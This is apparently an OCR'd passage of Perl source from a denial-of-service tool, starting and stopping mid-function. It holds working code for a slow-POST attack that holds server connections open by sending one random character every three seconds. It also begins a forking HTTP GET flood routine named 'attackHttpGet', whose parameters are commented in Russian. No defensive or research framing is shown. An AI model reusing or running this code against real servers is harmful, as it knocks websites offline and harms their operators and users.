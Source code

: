 	socket(SOCK, PF_INET, SOCK_STREAM, getprotobyname('tcp'));
	$iaddr = inet_aton($host);
	$paddr = sockaddr_in($port, $iaddr);
	connect(SOCK, $paddr);

	$req = join("\r\n",  "POST ".$path." HTTP/1.1",
			"Host: ".$host,
			"User-Agent: ".$ua,
			"Content-type: application/x-www-form-urlencoded",
			"Content-length: ".length($content),
			"",
			$content);		

	send (SOCK, $req."\n\n", 0);
	close(SOCK);
}

sub sendSlowPostRequest {
	my $host = $_[0];
	my $port = $_[1];
	my $path = $_[2];
	my $contentLen = $_[3];
	my $chars = "abcdefghijklmnopqrstuvwxyz0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ!@#$%^&*()_+|\=-~`1234567890";

	print "start\n";

	socket(SOCK, PF_INET, SOCK_STREAM, getprotobyname('tcp'));
	$iaddr = inet_aton($host);
	$paddr = sockaddr_in($port, $iaddr);
	connect(SOCK, $paddr);

	#send header
	send (SOCK, "POST ".$path." HTTP/1.1\r\n", 0);
	send (SOCK, "Host: $host\r\n", 0);
	send (SOCK, "User-Agent: $ua\r\n", 0);
	send (SOCK, "Content-type: application/x-www-form-urlencoded\r\n", 0);
	send (SOCK, "Content-length: $contentLen\r\n", 0);
	send (SOCK, "\r\n", 0);	

	#send body
	for my $i (1..$contentLen){
		my $symbol = substr $chars, int rand length($chars), 1;
		print "$symbol ";
		send (SOCK, $symbol, 0);
		sleep 3;
	}
	send (SOCK, "\r\n", 0);
	close(SOCK);
	print "end\n";
}

# HTTP GET (парамерты : хост, порт, путь до скрипта, время ожидания между запросами)
sub attackHttpGet {
	$SIG{CHLD} = \&REAPER;
	$child = fork;
	if ($child == 0){
		my $host = $_[0];
		my $port = $_[1];
		my $path = $_[2];
		my $sleep = $_[3];
		my $duration = $_[4];
